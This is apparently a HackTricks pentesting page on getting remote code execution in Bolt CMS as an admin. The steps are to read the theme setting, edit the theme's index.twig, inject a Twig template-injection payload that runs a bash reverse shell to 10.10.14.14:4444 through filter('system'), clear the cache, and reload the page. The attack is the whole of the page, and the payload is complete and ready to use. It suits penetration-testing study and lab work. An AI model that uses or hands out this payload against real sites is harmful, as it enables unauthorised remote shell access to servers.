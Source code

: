 # Bolt CMS

{#include ../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}

## RCE

After login as admin (go to /bot lo access the login prompt), you can get RCE in Bolt CMS:

- Select `Configuration` -> `View Configuration` -> `Main Configuration` or go the the URL path `/bolt/file-edit/config?file=/bolt/config.yaml`
  - Check the value of theme

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Select `File management` -> `View & edit templates`
  - Select the theme base found in the previous (`base-2021` in this case) step and select `index.twig`
  - In my case this is in the URL path /bolt/file-edit/themes?file=/base-2021/index.twig
- Set your payload in this file via [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/index.html#twig-php), like: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
  - And save changes

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Clear the cache in `Maintenance` -> `Clear the cache`
- Access again the page as a regular user, and the payload should be executed

{#include ../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}


